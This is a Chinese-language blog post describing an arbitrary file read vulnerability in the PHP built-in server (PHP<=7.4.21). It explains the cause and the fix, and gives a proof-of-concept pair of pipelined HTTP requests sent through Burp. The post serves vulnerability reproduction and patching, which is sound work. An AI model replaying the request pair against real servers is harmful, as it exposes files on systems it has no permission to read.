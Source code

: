 ```yaml
---
layout: post
title: PHP任意文件读取漏洞
abbrlink: aae5e80a25db4872a99bdf368d2e9ce1
tags: []
categories:
  - 漏洞挖掘与复现
  - 开发框架
date: 1735134923702
updated: 1735134923703
---
```


```python


这个漏洞存在于 PHP Built-in Server 在处理 TCP 数据流时，对于连续的两个畸形 HTTP 包，在第二个包中如果路径中的文件非 php 后缀时，则会当作静态文件去处理，并将其直接读取并返回。问题就出现在解析第一个包时没有把 client->request.path_translated 清理掉，从而导致第二个包会指向第一个包中的文件，最终导致任意文件读取。

影响版本 PHP<=7.4.21

修复办法
更新 PHP 版本
停止使用内置服务，使用 NGINX 或 Apache 进行代理

```

```python
注意，在 Burp 中发包时要关掉自动更新 Content-Length 的选项,以下使用同一个请求发送

GET /index.php HTTP/1.1
Host: 127.0.0.1:1080


GET /path/to/empty.file HTTP/1.1

```

> 更新: 2023-02-05 17:13:29\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/xv91s01nmrpu136e>
